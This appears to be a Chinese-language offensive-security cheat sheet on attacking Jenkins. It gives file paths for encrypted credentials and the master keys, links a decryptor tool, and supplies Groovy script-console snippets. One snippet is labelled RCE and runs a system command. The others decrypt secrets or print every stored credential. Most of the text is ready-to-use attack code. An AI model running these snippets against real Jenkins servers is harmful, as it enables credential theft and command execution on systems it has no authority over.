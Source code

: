 # Jenkins

## Credentials凭据

Jenkins 将加密凭证存储在`credentials.xml`文件或`config.xml`. 要解密它们，您需要`master.key`和`hudson.util.Secret`文件。

所有文件都位于 Jenkins 主目录中：

```
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```



可以使用工具https://github.com/hoto/jenkins-credentials-decryptor。

如果有script console，也可以利用script console解密：

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))

com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach{
  it.properties.each { prop, val ->
    println(prop + ' = "' + val + '"')
  }
  println("-----------------------")
}
```



## Script Console

位于`/script`。获得可以执行script console的用户权限的时候，可以在这里执行Groovy脚本：

![image-20231123155434585](README.assets/image-20231123155434585.png)



**RCE：**

```groovy
println "whoami".execute().text
```



**解密凭据：**

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))
```



也可以利用下面的命令解析：

```groovy
com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach{
  it.properties.each { prop, val ->
    println(prop + ' = "' + val + '"')
  }
  println("-----------------------")
}
```



## 参考

https://www.freebuf.com/articles/web/376186.html